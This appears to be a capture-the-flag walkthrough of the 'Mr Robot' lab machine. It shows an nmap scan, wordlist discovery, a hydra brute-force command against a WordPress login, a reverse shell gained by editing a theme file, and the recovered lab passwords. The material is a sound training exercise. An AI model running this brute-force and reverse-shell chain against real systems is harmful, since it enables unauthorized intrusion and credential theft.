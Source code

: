 # Overview

![](<img src=../../../../assets/images/mr-robot/mr_robots.png>)

# Step 1 


run a scan against the ip address of your target:

```bash

$ nmap -sCV 10.10.203.12

```

result of the scan

```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 17:23 WAT
Nmap scan report for 10.10.203.12
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.26 seconds

```

- from our result we found out we have two http port open  `80/443` and closed ssh port `22` closed

<br>

which can be preview on web browser ![link](http://10.10.203.12/)

![](<img src=../../../../assets/images/mr-robot/mr_robots-http.png>)

with manual recon i find /robots.txt

![](<img src=../../../../assets/images/mr-robot/mr_robots_robots.png>)

- upon navigating to the `/robots.txt` Directory i found two entries `fsocity.dic` and `the first key` 

- i `wget` the wordlist to download it to my machine

![](<img src=../../../../assets/images/mr-robot/mr_robots_key.png>)

![](<img src=../../../../assets/images/mr-robot/mr_robots_fsociety.png>)

- moving on to the second more valuable directory found fom earlier fuzzing `/wp-login.php` 

```bash

hydra -l Elliot -P ./fsocity.dic 10.10.33.130 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

```

result `ER28-0652` as the password

![](<img src=../../../../assets/images/mr-robot/login.png>)


- To exploit this, we need our to be upload to the machine so we can have a reverse shell

`http://IP/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen`

- but make sure your listener is ready to catch the shell on the specified port.

![](<img src=../../../../assets/images/mr-robot/port.png>)


stabilize shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

So we don’t have permissions to check if we can run something as sudo. Let’s check this password file that it is in the robot directory:

![](<img src=../../../../assets/images/mr-robot/image.png>)


- After a couple of seconds, we got ourselves a new set of credentials:

```bash

username: robot
password: abcdefghijklmnopqrstuvwxyz

```

login and get your flag

## Thanks For reading 🤗
